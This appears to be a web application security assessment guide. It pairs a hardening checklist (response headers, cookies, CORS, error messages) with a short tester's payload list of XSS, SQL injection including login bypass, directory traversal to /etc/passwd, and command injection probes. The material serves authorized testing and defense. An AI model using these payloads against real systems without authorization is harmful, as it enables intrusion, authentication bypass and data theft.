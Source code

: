 The ratings provided in the checklist were primarily generating using CVSS V3.1 average scores for 2025 CVEs. Please use the following tools to create ratings that more accurately represent your application and organization's risk appetite:

https://owasp.org/www-community/OWASP_Risk_Rating_Methodology

https://www.first.org/cvss/calculator/4-0

## Continuous Review
Please continue to evaluate the continuous review section and response headers sections of the checklist throughout the entire assessment. We encourage app teams to update the checklist and payload lists with language specific links and relevant company policies to ensure future developers follow the organization's requirements.
### Verbose Error Messages
Error messages should be short and generic. Do not show stack traces or informative messages to the user.
### Autocomplete Disabled on Sensitive Input Fields
Emails, password, challenge questions, and other sensitive information should have autocomplete="off".
### Sensitive Information is Masked
Sensitive information should be masked to mitigate shoulder surfing attacks.
### Sensitive Information Not in URL
Do not send sensitive information in GET request parameters.
### Unneccessary Methods are Disabled
Do not allow unsafe methods such as Trace or Connect on any endpoint. Disable DELETE, POST, etc. if not needed on the endpoint.
### HTTP Disabled
Enforce HTTPS for all connections.

## Response Headers
The following tools will check the response headers of your application and report on any insecurities or misconfigurations. We highly recommend checking the response headers manually because these tools may not follow the requirements of your organization. Additionally, most of these tools are limited to unauthenticated checks, meaning that sensitive authenticated responses will not be evaluated.

https://securityheaders.com/

https://hackertarget.com/http-header-check/

### Content-security-policy 
The CSP should include script-src and default-src. Do not use unsafe directives, such as unsafe-inline or unsafe-eval. Do not include wildcards in the CSP unless they are used in the subdomain of a trusted site. 

Quick Guide: https://content-security-policy.com/

Evaulation Tool: https://csp-evaluator.withgoogle.com/
### Strict-Transport-Security
The Strict-Transport-Security response header should contain the max-age directive set to 1 year or greater and the includeSubdomains directive. If the application is externally available, include the Preload directive.

Example: Strict-Transport-Security: max-age=63072000; includeSubDomains; preload

### Caching
**Cache-Control** - Set the cache-control response header to include the “no-store” flag in all responses.

**Expires** - Set the Expires header to a date in the past, or zero, in all responses.

### Information Leak Headers
Remove unneccessary response headers, such as: Server, X-Powered-By, X-AspNet-Version.

### CORS Headers
Do not set Access-Control-Allow-Origin to wildcard or reflect arbitrary origins/subdomains.

https://www.freecodecamp.org/news/exploiting-cors-guide-to-pentesting/

## Cookies
All cookies should have the following attributes: Secure, HttpOnly, SameSite: lax or strict.

https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie

This payload list will include a diverse set of basic payloads for each attack type with the goal of identifying the vulnerability using the least amount of attempts. For a longer list of payloads, see the LongPayloadList document or review the sources below. While this payload list was hand selected from my own personal notes(generated over the course of 3 years), most of the payloads can be found in the sources below.

[https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

https://book.hacktricks.wiki/en/index.html

https://portswigger.net/web-security/all-topics



## Cross-Site Scripting (XSS):

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

Enter the following payloads into user input fields and see how they are reflected in the application. If user input is reflected back unencoded and unfiltered, especially in javascript, then XSS is likely.

Alert() can be replaced with print() if your application is filtering out alert().
```
<b>test</b> 
<script>alert(1)</script>

<img src=1 onerror=alert(1)>

javascript:alert(document.cookie)

"onload="alert(1)

${alert(1)}

alert`1`

'-alert()-'
```


## SQL Injection
Review the following site for a cheat sheet showing specific requirements and payloads for the most common databases. This will help tailor the following payloads to your environment. For example, if your application uses MySQL, replace the `--` in the commands below with `#`.

https://portswigger.net/web-security/sql-injection/cheat-sheet

```
' followed by: ''

Oracle Concat: foo'||'bar
Microsoft Concat: foo'+'bar
PostgreSQL Concat: foo'||'bar
MySQL Concat: foo' 'bar

' OR 1=1 -- followed by: ' OR 1=2 --
' order by 1 -- followed by: ' order by 100 --
(SELECT 1) followed by: (SELECT 2)

'||pg_sleep(10)--
' OR sleep(5) OR '
'||pg_sleep(5)||'

SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## SQL Injection on Login Pages
**Username Field:**
```
'
''
admin'--
admin')--
admin' or 1=1--
admin') or 1=1-- -
admin' AND 1=1-- 
admin'||1=1#
```

**Password Field:**
```
'
''
' or 1=1--
') or 1=1-- -
```

## Directory Traversal
Please use a file/file path that exists on the web server. For example, etc/passwd if its a linux server and windows/win.ini if it is a windows server. Extend the ../ as needed.
```
../../../etc
../../../etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
../../../windows/win.ini
```

## Command Injection
All "whoami" text can be replaced with "sleep 3."
```
+;+whoami
+&&+whoami
+|+whoami
+`whoami`
+$(whoami)
‘ | whoami
‘ | whoami ‘
‘ | whoami #
; sleep 3
```